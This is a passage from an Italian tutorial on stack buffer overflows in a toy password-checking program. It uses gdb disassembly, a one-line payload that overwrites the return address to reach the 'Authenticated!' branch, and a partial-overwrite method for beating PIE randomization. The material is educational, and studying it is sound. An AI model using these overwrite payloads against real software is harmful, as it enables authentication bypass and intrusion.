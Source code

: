 ```bash
   0x0000000000400be7 <+64>:    call   0x40eab0 <exit>
```

Andando ad ispezionare i parametri passati alla funzione `puts` (cioè `edi`) possiamo capire dove vogliamo ritornare infatti:

il parametro della prima `puts`:

```bash
(gdb) x/s 0x49241e
0x49241e:       "Authenticated!"
```

mentre il parametro dell’altra funzione `puts`:

```bash
(gdb) x/s 0x49242d
0x49242d:       "Wrong password!"
```

vogliamo quindi saltare alla prima `puts` e quindi all’istruzione con indirizzo

`0x0000000000400bc4 <+29>`

Eseguendo il programma con questo input otteniamo ciò che vogliamo:

```bash
echo -e "AAAAAAAAAAAAAAAAAAAAAAAA\xc4\x0b\x40\x00\x00\x00\x00\x00" | ./stack-pwd
Insert password: Authenticated!
```

Vengono usate 24 ‘A’ per sovrascrivere i 16 byte del buffer e gli 8 byte per il vecchio base pointer, i rimanente 8 byte vengono sovrascritti con il nuovo indirizzo (in *little endian*)

### Caso 2

Se compiliamo disabilitando solo lo **stack protector.**

`gcc stack-pwd.c -o stack-pwd-pie -fno-stack-protector`

In questo caso gli indirizzi vengono randomizzati ad ogni esecuzione, tranne gli ultimi 3 caratteri esadecimali (quindi un byte e mezzo, 12 bit) che sono un offset fisso.

Se facciamo un disassemly del main otteniamo:

```bash
(gdb) disass main
 ...
 0x000000000000085c <+20>:    call   0x7ea <checkpassword>
 0x0000000000000861 <+25>:    test   eax,eax               #ritorno previsto
 0x0000000000000863 <+27>:    je     0x87b <main+51>
 0x0000000000000865 <+29>:    lea    rdi,[rip+0xd2]        #ritorno che vogliamo
 0x000000000000086c <+36>:    call   0x670 <puts@plt>
 ...
```

Abbiamo quindi i primi 13 caratteri randomizzati mentre gli ultimi 3 sono fissi.

Per riuscire nell’attacco dovremmo quindi sovrascrivere gli ultimi due byte con l’offset che interessa a noi, ad esempio `0x65 0x08` e ripetere l’attacco fino a che randomicamente l’indirizzo non termina con `00 08 65`
